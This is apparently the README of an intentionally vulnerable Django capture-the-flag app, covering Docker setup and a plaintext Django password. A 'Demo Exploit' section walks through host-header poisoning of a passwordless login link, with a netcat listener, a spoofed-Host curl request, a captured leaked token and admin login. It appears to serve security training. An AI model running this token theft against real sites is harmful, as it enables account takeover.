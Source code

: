 # Install

## External requirements
- a working mail server, and a correct django configuration
- for dev, it's an sqlite database, django support other backend
- Flag is configurable on settings.py
- Special group is configurable on settings.py

## Build

```
docker compose build
docker compose up -d
```

## Init

```
docker compose exec python ./manage.py migrate
docker compose exec python ./manage.py createsuperuser
```

Login to admin
- Create a special group, the name should be the one configured in settings.py
- Create at least one user and add it in the group
- Optionaly create a few user (normal, and staff) (locahost:8001/admin), add first_name, last_name and email

Then logout from the admin. (This is important, if not, you will be loggin on the wepapp as superadmin)

PASSWORD DJANGO
RGdadGGUQmuoCfGUX^ktU&voyuHhsy3!

## Demo Exploit

Launch a nc listner
```
nc -l -p 8082
```
Get a victim on the user directory page (http://localhost:8001/userdir)
Ask for a no pass login token, with and evil host and the victim mail
```
curl -H "Host: localhost:8002" http://localhost:8001/nopasslogin\?email\=special1@email.host
```

Wait for the admin to click on the no login link, and get the token, you will receive some data on the netcat shell, for exemple:
```
GET /nopasslogin?auth=YWRtaW5AYWRtaW4uaG9zdDoxcUJzeHM6ajRRcjliNkc2Z1BmRmNQRXVpVDkzQkItNzI4dVFSOG9TU0J4Z2k0MzhxVQ== HTTP/1.1
Host: localhost:8002
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) QtWebEngine/5.15.8 Chrome/87.0.4280.144 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
DNT: 1
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: search_parameters=%7B%22addresses%22%3A%22on%22%2C%22subnets%22%3A%22on%22%2C%22vlans%22%3A%22on%22%2C%22vrf%22%3A%22off%22%2C%22pstn%22%3A%22off%22%2C%22circuits%22%3A%22on%22%2C%22customers%22%3A%22off%22%7D; expandfolders=0; sstr=%7C18486%7C; csrftoken=sJzEIZxD90nlUl1a8CzCLVWwdZPru2qn
```

Now, you can use the auth param, with the correct host to login as the admin user, go to:
`http://localhost:8001/nopasslogin?auth=YWRtaW5AYWRtaW4uaG9zdDoxcUJzeHM6ajRRcjliNkc2Z1BmRmNQRXVpVDkzQkItNzI4dVFSOG9TU0J4Z2k0MzhxVQ==`

# Note

Any user in the special group will automaticly click on the link, you should ensure that the django code can reach the controlled target (in a docker, the localhost:8002 will not work)

For now, as a poc (/TODO):
- login and logout views are not handled correctly, login is accessible when you're already logged in for exemple
- dev deps are installed in the docker image
